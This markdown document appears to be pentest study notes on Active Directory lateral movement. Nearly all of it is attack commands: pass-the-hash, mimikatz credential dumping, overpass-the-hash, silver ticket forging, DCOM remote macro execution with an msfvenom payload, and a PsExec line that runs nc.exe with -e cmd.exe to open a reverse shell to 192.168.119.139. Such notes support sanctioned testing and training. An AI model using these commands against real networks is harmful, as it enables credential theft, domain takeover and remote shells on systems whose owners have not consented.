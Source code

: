 # Lateral Movement

>Since we have located high-valuable targets logged on some workstations/servers and we have obtained password hashes and tickets from current machine, we can move laterally to try compromise these high value targets that could lead to full AD compromise.

## Pass the Hash

> Allows us to authenticate to a remote system or service using the NTLM hash of a user (will not work for Kerberos authentication).

 ```bash
#From our kali machine:
pth-winexe -U $USER%$NTLMHASH //$IPADDRESS cmd
#Change $IPADDRESS to the remote machine.
 ```

**Note:** This method only works for AD domain accounts and the built-in local administrator account.

_____

## SMBMap with hashes

If we get a hash we can try to use smbmap in order to test if the user have write access to the C vol or C$, then we can crack that hash to and use PsExec to get a shell.

```bash
smbmap -u $USERNAME -h $HASH(xxx:xxx) -H $IP_ADDRESS

```
_____

## Overpass the Hash

Thanks to this method we can abuse the NTLM hash of a user to gain a full kerberos TGT or TGS which grants us access to another machine or service as that user.

Imagine we have compromised a workstation and there are cached NTLM hashes of other users. The first step is to grab the NTLM hash of a user using mimikatz:

```
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

Now we have to use the following mimikatz tool open a powershell prompt as the context of this user:

```bash
sekurlsa::pth /user:$USERNAME /domain:$DOMAINNAME /ntlm:$NTLMHASH /run:PowerShell.exe
```

Next, if there are no Kerberos tickets cached, we have to generate one:

```bash
#List current tickets:
klist

#Generate a TGT by authenticating somewhere:
net use \\$DCHOSTNAME
```

Now we have a full Kerberos TGT which allows us to use any tools that rely on Kerberos authentication:. For example, login as this user on the domain controller:

```bash
.\PsExec \\$DCHOSTNAME cmd.exe
```

_____

## Pass The Ticket

The overpass the hash used before provides us with a TGT ticket which is only usable on the machine it was created for. Pass The Ticket attack takes advantage of the TGS which may be exported and re-injected elsewhere used to authenticate to a specific service.

With the SPN service account password or its associated NTLM hash we can forge our own TGS to access the target resource with any permission we desire (silver ticket).

We make use of mimikatz kerberos::golden command to create this ticket.

**Step 1:** Find the SID of the domain:

```bash
whoami /user
#SID is all the output minus the last part (last 4 numbers)
```

**Step 2:** Craft the ticket:

```bash
kerberos::golden /user:$DOMAINUSER /domain:$DOMAIN /sid:$SID /target:$SPNNAME /service:$SERVICE /rc4:$NTLMHASH /ptt

#user: Domain user we currently are, not the service user.
#service: First part of serviceprincipalname (until "\").
#ppt: Injects directly the ticket in memory. Remove to save the ticket on disk.
#rc4: NTLM hash of the password.
```

This service ticket will have permissions as built-in local administrator user (500) and Domain Admins (plus other high privileged) AD group. Once loaded into memory, we can interact with the service and gain access to any information, including command execution.

_____

## DCOM

We can use DCOM (like Macros from Excel) to perform a lateral movement technique. This method will allow us to execute a Visual Basic Macro remotely. Note: Office shoud lbe installed on the remote machine.

**Step1:** Create a document and paste the following macro:

```bash
#Create the payload with msfvenom with format (hta-psh)
Sub MyMacro()
Dim Str As String

Str = Str + "$PAYLOAD"
Str = Str + "$PAYLOAD"

Shell (Str)

End Sub
```

**Step 2:** Execute the following code on a PS window in order yo upload the file to the remote machine and execute the macro.

```bash
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "$REMOTEIPADDRESS"))
$LocalPath = "$LOCALPATH\$FILENAME.xls"
$RemotePath = "\\$REMOTEIPADDRESS\c$\$FILENAME.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
$Path = "\\$REMOTEIPADDRESS\c$\Windows\sysWOW64\config\systemprofile\Desktop"
$temp = [system.io.directory]::createDirectory($Path)
$Workbook = $com.Workbooks.Open("C:\$FILENAME.xls")
$com.Run("mymacro")

#Note: filename must be .xls
```

_____

## PsExec

Connect to a remote machine using known credentials or hashes:

```bash
#32 bits:
PsExec.exe -u $USERNAME -p $PASSWORD C:\temp\nc.exe 192.168.119.139 1233 -e C:\windows\system32\cmd.exe

#64 bits:
PsExec64.exe -u $USERNAME -p $PASSWORD C:\temp\nc.exe 192.168.119.139 1233 -e C:\windows\system32\cmd.exe
```
